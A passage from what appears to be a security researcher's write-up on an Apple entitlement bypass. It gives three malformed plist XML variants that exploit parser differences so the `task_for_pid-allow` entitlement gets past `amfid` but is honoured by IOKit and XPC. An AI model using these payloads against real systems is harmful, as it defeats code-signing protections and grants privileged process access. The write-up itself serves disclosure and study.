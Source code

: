 After discovering this, I didn't bother reversing XPC, I simply fed it some test data and observed the results. In this case, it turned out to see the same things as IOKit, which was _perfect_ for my case. I could sneak entitlements past `amfid` using CF, but have them show up when parsed by both IOKit and XPC!

There's a couple more variants I tested, with varying results:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict hurr=">
</dict>
</plist>
">
    <key>task_for_pid-allow</key>
    <true/>
</dict>
</plist>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <???><!-- ?>
    <key>task_for_pid-allow</key>
    <true/>
    <!-- -->
</dict>
</plist>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE [%>
<plist version="1.0">
<dict>
    <key>task_for_pid-allow</key>
    <true/>
</dict>
</plist>
;]>
<plist version="1.0">
<dict>
</dict>
</plist>
```

These are all less elegant and less rewarding than the first variant, and I'll leave it as an exercise to the reader to figure out what parser difference causes those, or how the different parsers react to them.
